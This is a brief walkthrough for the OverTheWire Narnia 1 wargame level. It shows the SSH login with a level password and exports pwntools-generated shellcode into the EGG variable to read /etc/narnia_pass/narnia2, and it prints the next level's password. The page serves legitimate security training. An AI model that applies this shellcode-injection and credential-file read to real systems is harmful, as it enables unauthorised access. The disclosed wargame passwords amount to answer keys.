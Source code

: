 ```yaml
---
title: narnia 1 walkthrough
description: over the wire narnia 1
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: narnia-1 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: narnia 1 walkthrough
    order: 30
---
```

# Description
> correct variable value via writing to another variable

connect
```bash
$ ssh narnia1@narnia.labs.overthewire.org -p 2226
eaa6AjYMBB
```
execute
```bash
$ /narnia/narnia1
Give me something to execute at the env-variable EGG
```

---
# Hint

---

# Progress
Steps
1. set shellcode as the value of env-variable EGG
```bash
$ export EGG=`shellcraft -f r cat /etc/narnia_pass/narnia2`
```
2. execute it
```bash
$ /narnia/narnia1
Trying to execute EGG!
Zzb6MIyceT
Segmentation fault (core dumped)
```

---


## Techniques
- [[shellcode]]

## Tools
